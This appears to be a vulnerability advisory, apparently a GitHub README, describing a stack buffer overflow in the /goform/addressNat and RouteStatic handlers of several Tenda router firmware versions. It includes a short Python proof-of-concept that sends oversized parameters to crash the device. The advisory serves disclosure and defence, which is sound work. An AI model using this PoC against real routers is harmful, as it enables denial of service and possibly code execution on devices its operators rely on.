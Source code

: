 # Tenda routerstatic api vulnerability
These vulnerability lie in the /goform/addressNat or /goform/RouteStatic page which influence the device: FH452, F451, F453, CH22. And influence the lastest version of
FH451_V1.0.0.5,  FH451_V1.0.0.7, FH451_V1.0.0.9, F451_V1.0.0.7, F451_V1.0.0.9, F453_V1.0.0.3, CH22_V1.0.0.1. 
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function fromAddressNat or fromRouteStatic.
The example is as follows:

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/F456/41/vlun1.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## PoC
For example:
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to @XYlearn and @Funcy_kilar from Fudan University, Guangzhou University.

